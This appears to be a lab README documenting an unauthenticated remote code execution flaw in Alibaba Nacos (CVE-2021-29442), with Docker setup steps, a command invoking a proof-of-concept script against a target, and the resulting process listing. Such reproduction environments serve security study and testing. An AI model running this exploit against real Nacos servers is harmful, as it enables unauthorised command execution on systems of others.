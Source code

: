 # Alibaba Nacos Authentication Bypass and Remote Code Execution (CVE-2021-29442)

[中文版本(Chinese version)](README.zh-cn.md)

Nacos is an easy-to-use platform designed for dynamic service discovery and configuration and service management.

In the Nacos version before 1.4.1, some API endpoints such as `/nacos/v1/cs/ops/derby` are not protected and can be openly accessed by unauthenticated users. Attackers are able to execute arbitrary SQL statement and Java code.

References:

- <https://github.com/advisories/GHSA-xv5h-v7jh-p2qh>
- <https://github.com/alibaba/nacos/issues/4463>
- <https://github.com/ayoundzw/nacos-poc>
- <http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce>

## Vulnerable environment

Execute following command to start a Alibaba Nacos 1.4.0:

```
docker compose up -d
```

After server is started, brwose the `http://your-ip:8848/nacos/` you will see the default login page of Nacos.

## Exploit

Execute [POC](poc.py) to exploit the issue, the `-t` parameter specifies the target address, the `-c` parameter specifies the command to be executed:

```
python poc.py -t http://your-ip:8848 -c "ps aux"
```

And you will see the `ps aux` is executed successfully:

```json
{"code":200,"message":null,"data":""}
{"code":200,"message":null,"data":[{"B":0,"A":"USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMANDroot           1  0.0  0.0 814608  4992 ?        Ss   18:47   0:00 [rosetta] /bin/bash /bin/bash bin/docker-startup.shroot          31 25.5  7.5 10414040 1534908 ?    Sl   18:47   1:14 [rosetta] /usr/lib/jvm/java-1.8.0-openjdk/bin/java /usr/lib/jvm/java-1.8.0-openjdk/bin/java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=9555 -Xms2g -Xmx2g -Xmn1g -Dnacos.standalone=true -Dnacos.core.auth.enabled=true -Dnacos.member.list= -Djava.ext.dirs=/usr/lib/jvm/java-1.8.0-openjdk/jre/lib/ext:/usr/lib/jvm/java-1.8.0-openjdk/lib/ext:/home/nacos/plugins/health:/home/nacos/plugins/cmdb:/home/nacos/plugins/mysql -Xloggc:/home/nacos/logs/nacos_gc.log -verbose:gc -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCTimeStamps -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=10 -XX:GCLogFileSize=100M -Dnacos.home=/home/nacos -jar /home/nacos/target/nacos-server.jar --spring.config.location=/home/nacos/init.d/,file:/home/nacos/conf/,classpath:/,classpath:/config/,file:./,file:./config/ --spring.config.name=application,custom --logging.config=/home/nacos/conf/nacos-logback.xml --server.max-http-header-size=524288root         406  0.0  0.0 854552  5504 ?        R    18:51   0:00 ps aux"}]}
```

![](1.png)
